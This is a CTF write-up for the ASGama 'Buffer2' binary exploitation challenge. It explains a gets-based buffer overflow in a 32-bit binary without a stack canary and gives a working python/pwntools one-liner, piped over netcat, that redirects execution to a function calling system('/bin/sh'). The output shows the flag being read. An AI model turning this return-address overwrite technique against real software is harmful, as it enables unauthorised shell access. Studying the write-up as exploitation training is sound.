

# __ASGama CTF__ 
## _Buffer2_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 75 | l0l

**Description:** 

> Buffer 2

> nc asgama.web.id 40202
>
> [buf2](./buf2)

### buf2
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=422a2c2391911b03f182ed6a8a2b65ca200f276c, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### buf2 Disassembly





Terlihat ada 3 fungsi utama di program ini: main, hah, debug. Fungsi main akan memanggil fungsi hah untuk meminta input user. Di fungsi hah, input diambil dengan menggunakan fungsi get (vulnerable terhadap buffer overflow). Sedangkan fungsi debug akan memanggil `system('/bin/sh')`. Sehingga kita dapat menyusun payload untuk overwrite return address dari fungsi hah agar return ke fungsi debug, sehingga kita mendapatkan shell. 

Offset address input kita dengan return address fungsi hah adalah 0x48+0x4. 

Address dari fungsi debug : 0x804851c


### Payload
`$ (python -c "from pwn import p32; print 'A'*(0x48+0x4)+p32(0x804851c)"; cat -) | nc asgama.web.id 40202`


### Result 
```
$ (python -c "from pwn import p32; print 'A'*(0x48+0x4)+p32(0x804851c)"; cat -) | nc asgama.web.id 40202
ls
buf2
flag
cat flag
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}
```

### Flag 
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}